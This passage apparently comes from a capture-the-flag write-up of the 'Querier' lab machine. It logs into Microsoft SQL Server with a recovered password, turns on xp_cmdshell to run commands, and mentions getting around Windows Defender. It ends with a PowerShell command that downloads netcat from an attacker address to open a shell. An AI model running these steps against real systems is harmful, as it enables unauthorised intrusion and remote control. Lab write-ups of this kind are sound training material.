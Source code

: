The password is: `corporate568`

Now we can log in with that the `mssql-svc` account then enable `xp_cmdshell` and get RCE:

```
# /usr/share/doc/python-impacket/examples/mssqlclient.py -windows-auth querier/mssql-svc@querier.htb
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'master'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL> EXEC sp_configure 'show advanced options', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
[*] INFO(QUERIER): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> xp_cmdshell "dir c:\users"
output

--------------------------------------------------------------------------------

 Volume in drive C has no label.
 Volume Serial Number is FE98-F373
NULL
 Directory of c:\users
NULL
01/28/2019  11:41 PM    <DIR>          .
01/28/2019  11:41 PM    <DIR>          ..
01/28/2019  10:17 PM    <DIR>          Administrator
01/28/2019  11:42 PM    <DIR>          mssql-svc
01/28/2019  10:17 PM    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)   6,438,649,856 bytes free
NULL
```

At first I tried running a Nishang reverse shell but Windows Defender caught it. Then I tried downloading netcat with certutil.exe but that also was caught. So I used powershell instead to download netcat and then spawn a shell:

```
SQL> xp_cmdshell "powershell -command Invoke-WebRequest -Uri http://10.10.14.23/nc.exe -OutFile c:\programdata\nc.exe"
```
